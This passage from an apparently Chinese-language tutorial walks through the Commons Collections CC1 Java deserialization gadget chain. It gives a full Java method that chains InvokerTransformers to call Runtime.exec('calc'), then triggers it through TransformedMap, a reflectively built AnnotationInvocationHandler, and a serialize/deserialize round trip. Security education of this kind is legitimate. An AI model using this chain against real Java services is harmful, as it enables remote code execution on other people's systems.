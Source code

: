 

将这部分代码替换掉之前的 InvokerTransformer。



改写的代码如下：



```java
    public static void TestInvokerTransformer() throws Exception{
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new InvokerTransformer(
                                "getMethod",
                                new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}
                        ),
                        new InvokerTransformer(
                                "invoke",
                                new Class[]{Object.class,Object[].class},
                                new Object[]{null,null}
                        ),
                        new InvokerTransformer(
                                "exec",
                                new Class[]{String.class},
                                new Object[]{"calc"}
                        )
                });

        HashMap<String,String> map = new HashMap<>();
        map.put("value","222");

        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);

        Runtime r = Runtime.getRuntime();

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        serialize(constructor.newInstance(Target.class, transformedMap));
        unserialize("abc.ser.bin");
    }
```



### 2. 解决传入参数不可控问题



setValue 需要传入 Runtime 对象，而在 AnnotationInvocationHandler 的 readObject 方法中是一个 AnnotationTypeMismatchExceptionProxy 对象。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747090204-4b7fb9e4-d42b-40bb-90c1-fcf71d7a9ab5.png)
